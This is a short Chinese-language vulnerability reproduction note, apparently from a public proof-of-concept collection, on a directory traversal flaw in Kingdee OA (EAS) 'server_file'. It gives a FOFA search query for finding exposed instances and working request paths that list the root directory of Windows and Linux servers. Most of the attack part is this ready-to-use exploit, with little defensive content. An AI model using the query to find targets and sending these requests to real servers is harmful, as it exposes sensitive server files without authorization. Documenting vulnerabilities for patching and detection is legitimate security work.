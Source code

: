 # 金蝶OA-server_file-目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

> [!NOTE]
>
> 金蝶OA

## FOFA

> [!NOTE]
>
> app="Kingdee-EAS"

## 漏洞复现

登录界面为

![image-20210603132948792](金蝶OA-server_file-目录遍历漏洞.assets/1627363503963486.jpg)

漏洞POC

```
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![image-20210603133022065](C:/Users/peiqi/AppData/Roaming/Typora/typora-user-images/image-20210603133022065.png)

```
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![image-20210603133136331](金蝶OA-server_file-目录遍历漏洞.assets/1627363504215456.jpg)

